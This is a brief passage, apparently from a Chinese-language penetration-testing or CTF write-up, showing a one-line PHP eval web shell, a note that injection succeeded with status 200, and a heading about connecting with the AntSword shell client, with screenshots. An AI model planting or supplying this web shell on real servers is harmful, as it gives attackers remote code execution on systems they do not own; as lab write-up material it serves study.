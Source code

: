 ```
<?php @eval($_POST[a]);?>
```

![image-20250328133224088](./assets/image-20250328133224088.png)

状态码200，注入成功

 

### 蚁剑连接

![image-20250328133229945](./assets/image-20250328133229945.png)

